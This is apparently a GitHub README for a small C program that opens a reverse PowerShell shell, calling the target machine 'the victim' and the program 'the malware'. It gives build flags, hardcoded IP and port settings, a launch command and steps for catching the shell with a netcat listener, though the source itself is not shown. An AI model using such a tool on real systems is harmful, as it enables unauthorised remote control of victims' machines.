 # MalvasiaC
## C classic (minimal) reverse powershell
![Alt text](.\screen.png)
This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- The executable has been coded on Windows using Visual Studio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 12](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action
![Alt text](.\screen2.png)
1. Run the server (in this case using netcat)
2. Execute the client (AKA the malware) passing the server IP and port
3. Have fun running some powershell command


